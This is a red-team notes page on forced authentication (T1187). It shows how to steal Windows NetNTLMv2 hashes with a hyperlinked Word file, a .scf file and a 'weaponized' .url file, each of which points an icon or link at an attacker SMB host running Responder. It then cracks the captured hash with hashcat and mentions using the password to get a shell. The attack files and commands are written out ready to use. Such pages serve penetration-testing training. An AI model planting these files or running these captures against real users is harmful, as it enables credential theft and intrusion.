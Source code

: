 ```yaml
---
description: 'Credential Access, Stealing hashes'
---
```


# T1187: Forced Authentication

## Execution via Hyperlink to an SMB server

Let's create a Word document that has a hyperlink to our attacking server where  `responder` will be listening on port 445:

![](../.gitbook/assets/forced-auth-word.png)

{% file src="../.gitbook/assets/totes-not-a-scam.docx" caption="Forced SMBv2 Authentication - MS Word File" %}

Let's start `Responder` on our kali box:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
responder -I eth1
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once the link in the document is clicked, the target system sends an authentication request to the attacking host. Since responder is listening on the other end, victim's `NetNTLMv2` hash is captured:

![](../.gitbook/assets/forced-auth-hashes.png)

The retrieved hash can then be cracked offline with hashcat:

```csharp
hashcat -m5600 /usr/share/responder/logs/SMBv2-NTLMv2-SSP-10.0.0.2.txt /usr/share/wordlists/rockyou.txt --force
```

Success, the password is cracked:

![](../.gitbook/assets/forced-auth-cracked.png)

Using the cracked passsword to get a shell on the victim system:

![](../.gitbook/assets/forced-auth-shell%20%281%29.png)

## Execution via .SCF

Place the below `fa.scf` file on the attacker controlled machine at `10.0.0.7` in a shared folder `tools`

{% code-tabs %}
{% code-tabs-item title="\\\\10.0.0.7\\tools\\fa.scf" %}
```csharp
[Shell]
Command=2
IconFile=\\10.0.0.5\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% file src="../.gitbook/assets/fa.scf" caption="fa.scf" %}

A victim user `low` opens the share `\\10.0.0.7\tools` and the `fa.scf` gets executed automatically, which in turn forces the victim system to attempt to authenticate to the attacking system at 10.0.0.5 where responder is listening:

![victim opens \\10.0.0.7\tools, fa.scf executes and gives away low&apos;s hashes](../.gitbook/assets/forced-auth-shares.png)

![user&apos;s low hashes were received by the attacker](../.gitbook/assets/forced-auth-scf.png)

What's interesting with the `.scf` attack is that the file could easily be downloaded through the browser and as soon as the user navigates to the `Downloads` folder, users's hash is stolen:

![](../.gitbook/assets/forced-auth-downloads.png)

## Execution via .URL

Create a weaponized .url file and upload it to the victim system:

{% code-tabs %}
{% code-tabs-item title="c:\\link.url@victim" %}
```csharp
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.0.0.5\%USERNAME%.icon
IconIndex=1
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Create a listener on the attacking system:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```text
responder -I eth1 -v
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once the victim navigates to the C:\ where `link.url` file is placed, the OS tries to authenticate to the attacker's malicious SMB listener on `10.0.0.5` where NetNTLMv2 hash is captured:

![](../.gitbook/assets/forced-authentication-url.gif)

## References

{% embed url="http://www.defensecode.com/whitepapers/Stealing-Windows-Credentials-Using-Google-Chrome.pdf" %}

{% embed url="https://www.bleepingcomputer.com/news/security/you-can-steal-windows-login-credentials-via-google-chrome-and-scf-files/" %}

{% embed url="https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/" %}

{% embed url="https://medium.com/@markmotig/a-better-way-to-capture-hashes-with-no-user-interaction-by-markmo-bd1569bfa208" %}

